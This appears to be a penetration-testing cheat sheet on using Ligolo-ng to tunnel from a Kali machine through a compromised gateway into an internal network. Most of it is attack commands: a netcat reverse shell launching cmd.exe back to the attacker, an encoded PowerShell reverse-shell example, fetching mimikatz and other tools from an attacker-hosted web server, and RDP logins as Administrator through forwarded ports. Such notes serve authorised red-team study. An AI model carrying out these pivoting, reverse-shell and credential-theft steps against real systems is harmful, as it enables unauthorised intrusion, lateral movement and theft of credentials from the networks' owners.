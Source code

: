 # Ligolo-ng setup

Source: https://looptube.io/?videoId=DM1B8S80EvQ  

## Prerequisite

### Framework

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | servers, workstations | 
| IpAttacker > | < eth0: IpDmzOut - eth1: IpDmzIn > | < IpInternalNetwork (DC, WS1, WS2) |

### Binary releases

Two downloads:
- an agent: on the gateway
- a proxy: on Kali

## Setup

### Config on Kali

```
sudo ip tuntap add user kaliuser mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

### Config on the gateway

```
cmd> agent.exe -connect $IpKali:$PortKali -ignore-cert
```

### Tunneling on Ligolo-ng

```
>> help
>> session
>>>> ifconfig
```

In a shell:
```
sudo ip route add $IpInternal/24 dev ligolo
ip route list # check
```

Back in Ligolo:
```
>>>> start
```

Check with NetExec:
```
NetExec smb $IpInternal/24
```

### Pivoting in Ligolo-ng

In Ligolo
```
>>>> listener_list
>>>> listener_add --addr 0.0.0.0:$Port1 --to 127.0.0.1:$Port2
>>>> listener_add --addr 0.0.0.0:$Port3 --to 127.0.0.1:$Port4
>>>> listener_list
```

On a WS or the DC:
```
PS> nc.exe $InternalGatewayIpOnEth1 $Port1 -e cmd.exe
PS> iwr -uri http://$InternalGatewayIpOnEth1:$Port3/somepentestingtool.exe -outfile tool.exe
```

On Kali:
```
nc -lnpu $Port2
python3 -m http.server $Port4
```

Examples:
- `0.0.0.0:4446` -> `127.0.0.1:4446` then `powershell -e base64enc($InternalIpForAgent01 $4446)`
- `0.0.0.0:8081` -> `127.0.0.1:8081` then `iwr -uri http://$InternalIpForAgent01:8181/mimikatz.exe -outfile mimi.exe` (and `python3 -m http.server 8081` in `/var/www/html`)
- `0.0.0.0:3389` -> `$IpForTarget02:3389` then `xfreerdp /u:Administrator /p:adminpass /v:$ExternalIpForAgent01`
